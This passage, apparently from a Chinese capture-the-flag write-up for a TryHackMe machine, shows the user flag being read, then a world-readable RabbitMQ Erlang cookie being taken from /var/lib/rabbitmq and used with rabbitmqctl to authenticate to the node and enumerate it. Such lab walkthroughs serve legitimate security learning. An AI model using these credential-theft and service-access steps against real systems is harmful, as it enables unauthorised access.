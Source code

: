 ![](images/2e362031d8d038dd67277973dc1f96e8.png)

```
cat /home/azrael/user.txt
```



![](images/96a6dec9f4ca9b4ae333f74ceb9c04a8.png)
拿到第一题的答案
枚举系统文件，发现/var/lib/rabbitmq/.erlang.cookie保存的文件是全局可读，读取获得Erlang Cookie

![](images/0bed752e0aa385949bed3fe8c1ec6c1d.png)
在端口扫描中，RabbitMQ在服务器上运行，使用ErlangCookie可以对其继续宁身份验证，默认格式为`rabbit@<hostname>`，将主机名添加到hosts

```
10.10.100.9 cloudsite.thm storage.cloudsite.thm forge
```

使用rabbitmqctl对发现的Cookie进行枚举

``` Shell
sudo rabbitmqctl --erlang-cookie 'aKQCJe8w9xOgSzl4' --node rabbit@forge status
```



![](images/dabea1da042343793beb5e31ae6d6ab3.png)
枚举RabbitMQ用户
